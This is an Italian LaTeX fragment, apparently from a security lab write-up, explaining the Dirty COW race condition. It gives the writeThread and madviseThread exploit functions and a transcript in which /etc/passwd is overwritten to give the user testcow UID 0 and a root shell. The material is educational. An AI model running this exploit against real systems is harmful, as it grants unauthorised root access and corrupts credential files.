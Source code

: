 \documentclass{article}
\begin{document}
\begin{lstlisting}[language=C, caption={writeThread e madviseThread}]
void *writeThread(void *arg)
{
    char *content = "testcow:x:0000";
    off_t offset = (off_t) arg;

    // Apre lo pseudo-file di memoria del processo
    int f = open("/proc/self/mem", O_RDWR);

    while (1) {
        // Sposta il puntatore alla posizione del record target
        lseek(f, offset, SEEK_SET);
        // Scrive nella memoria (tenta di attivare la race condition)
        write(f, content, strlen(content));
    }
}

void *madviseThread(void *arg)
{
    int file_size = (int) arg;

    while (1) {
        // Scarta la copia privata, riportando la tabella
        // delle pagine alla memoria originale
        madvise(map, file_size, MADV_DONTNEED);
    }
}
\end{lstlisting}

\begin{itemize}
    \item \textbf{writeThread}: tenta in loop di sovrascrivere \texttt{"testcow:x:1001"} con \texttt{"testcow:x:0000"} nella memoria del processo tramite \texttt{/proc/self/mem}.
    \item \textbf{madviseThread}: chiama in loop \texttt{madvise()} per annullare continuamente la copia privata, sperando di intercettarsi tra i passi B e C di \texttt{write()}.
\end{itemize}

\subsection*{Risultato dell'attacco}

\begin{lstlisting}[language=bash]
seed@ubuntu:$ gcc cow_attack_passwd.c -lpthread
seed@ubuntu:$ a.out
   ... press Ctrl-C after a few seconds ...
seed@ubuntu:$ cat /etc/passwd | grep testcow
testcow:x:0000:1003:,,,:~/home/testcow:/bin/bash   <- UID diventa 0!
seed@ubuntu:$ su testcow
Password:
root@ubuntu:#   <- Shell di root ottenuta!
root@ubuntu:# id
uid=0(root) gid=1003(testcow) groups=0(root),1003(testcow)
\end{lstlisting}

Grazie alla race condition, la scrittura \textbf{bypassa il meccanismo CoW} e modifica direttamente il file \texttt{/etc/passwd} (di sola lettura), cambiando l'UID di \texttt{testcow} da \texttt{1001} a \texttt{0}. L'utente può quindi eseguire \texttt{su testcow} e ottenere una \textbf{shell con privilegi di root}.
\end{document}
